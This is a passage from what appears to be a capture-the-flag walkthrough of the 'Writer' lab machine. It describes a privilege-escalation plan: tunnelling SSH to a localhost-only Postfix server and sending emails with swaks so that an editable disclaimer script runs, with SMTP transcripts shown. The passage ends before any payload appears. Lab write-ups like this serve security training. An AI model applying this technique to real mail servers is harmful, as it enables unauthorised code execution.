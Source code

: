 ### Exploitation

#### Strategy

If each email is run against this script, then I can edit it to get execution as john. I did note above that the `netstat` showed something listening on TCP 25, but only on localhost. I’ll reconnect the SSH session as kyle with `-L 25:127.0.0.1:25` to create a tunnel from TCP 25 on my host into TCP 25 on Writer.

Next I can send an email to that tunnel, and it will trigger the script. In order for the email to reach the script, it must be a valid user. If I try sending to 0xdf@writer.htb (which doesn’t exist), `swaks` returns an error, and this is before running `disclaimer`:

```

oxdf@parrot$ swaks --to 0xdf@writer.htb --from 0xdf@writer.htb --header "Subject: Test!" --body "ignore this" --server 127.0.0.1
=== Trying 127.0.0.1:25...
=== Connected to 127.0.0.1.
<-  220 writer.htb ESMTP Postfix (Ubuntu)
 -> EHLO hacky
<-  250-writer.htb
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<0xdf@writer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<0xdf@writer.htb>
<** 550 5.1.1 <0xdf@writer.htb>: Recipient address rejected: User unknown in local recipient table
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.

```

Four lines from the bottom: “Recipient address rejected: User unknown in local recipient table”.

I can use any user on the box. I’ll pick one that is unlikely to be checking email, like irc.

```

oxdf@parrot$ swaks --to irc@writer.htb --from 0xdf@writer.htb --header "Subject: Test!" --body "ignore this" --server 127.0.0.1
=== Trying 127.0.0.1:25...
=== Connected to 127.0.0.1.
<-  220 writer.htb ESMTP Postfix (Ubuntu)
 -> EHLO hacky
<-  250-writer.htb
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<0xdf@writer.htb>
```